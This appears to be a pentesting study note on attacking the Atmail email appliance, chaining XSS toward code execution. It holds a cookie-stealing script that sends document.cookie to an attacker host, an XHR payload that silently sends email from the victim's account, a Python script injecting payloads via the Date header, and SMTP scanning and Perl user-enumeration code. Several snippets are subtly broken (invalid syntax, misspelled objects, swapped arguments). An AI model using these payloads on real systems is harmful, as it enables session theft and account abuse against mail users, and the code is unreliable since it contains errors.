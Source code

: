 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE
The idea is mailservers can be vulnerable to xss, if you send a payload in the date or subject or body as form of iframe or javascript, you canexploit the vulnerability. Note: 99% of the world use about 4 main mail platforms, with gmail and outlook and yahoo basically accounting for over 90% and protonmail 8%. So, everything explained here is mostly theoretical. All mail servers won't accept iframe and the fields are sanitized. So, the only trick you have is still to trick people out of the mail through links. 

# session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```

# session riding
For this attack let's use XMLHttpRequest. The XHR objects are used to interact with servers. You can retrieve data from a URL without having to do a full page refresh.
- with burp find which is the request to send out emails 
### payload to send email using XMLHttpRequest
The person won't notice of emails sent from their account.
```javascript
var email = attacker@mail.com;
var sub = "whatever";
var msg = "okayyyy";
var method = "GET";
function send_email(){
  var uri = "/index.php/mail/composemessage/send/tabId/"
  var para = "?mailTo="+email+"&emailSubject="+sub+"&emailBody="+msg;
  xhr = new XMLHttpRequests();
  xhr.open(method,uri+para, true);
  xhr.send(null);
}
```
## sending the payload
```python
import smtplib

def sendEmail(to,from,smtpsrv,payload):
  msg = 'From: attacker@mail.com\n'
  msg += To: victim@mail.com\n'
  msg += f'Date: {payload}\n'
  msg += 'Subject: pwnd\n'
  msg += 'Content-type: text/html\n\n'
  msg += 'something something something'
  msg += '\r\n\r\n'

  server = smtplib.SMTP(smtpsrv)
  try:
    server.sendmail(to, from, msg)
  except:
    pass
  server.quit()
```

## References:
- [Hacking SMTP Servers](https://medium.com/@minimalist.ascent/hacking-smtp-ser-2b8a5cc1ce47)
- 
## other informations
Scan host and verify whether or not the SMTP is actually running we can connect to it via telnet and issue a few commands. After that, enumerate possible users base on OSINT research on Linkedin. 
```bash
root@asus:/mnt% nmap -sV -T4 -p22,25 mail.acme.comStarting Nmap 7.01 ( https://nmap.org ) at 2018-12-28 19:39 MST
Nmap scan report for mail.acme.com
Host is up (0.00097s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp open  smtp    Sendmail 8.15.2/8.15.2/Debian-8
MAC Address: 08:00:27:0C:B6:CC (Oracle VirtualBox virtual NIC)
Service Info: Host: debian9.acme.com; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.63 seconds
root@asus:/mnt%


root@asus:~/pentest_notes% telnet mail.acme.com 25
Trying mail.acme.com...
Connected to mail.acme.com.
Escape character is '^]'.
220 mail.acme.com ESMTP Sendmail 8.15.2/8.15.2/Debian-8; Fri, 28 Dec 2018 19:31:58 -0700;
HELO mail.acme.com
250 mail.acme.com Hello [77.x.x.x], pleased to meet you
quit
221 2.0.0 mail.acme.com closing connection
Connection closed by foreign host.
root@asus:~/pentest_notes%
```
#### Verify a user exists
```
----- SNIP -----
#!/usr/bin/env perl
use strict;
use warnings;use Net::SMTP;open(my $fh, '<', 'users.txt') or die $!;my @users;
while (<$fh>) {
    chomp($_);
    push(@users, $_);
}close($fh) or die $!;my $s = Net::SMTP->new('mail.acme.com');for my $user (0..$#users) { 
    print "$users[$user] user exists\n" if ($s->verify($users[$user]));
    sleep(1);
}
$s->quit; 
----- SNIP -----
```
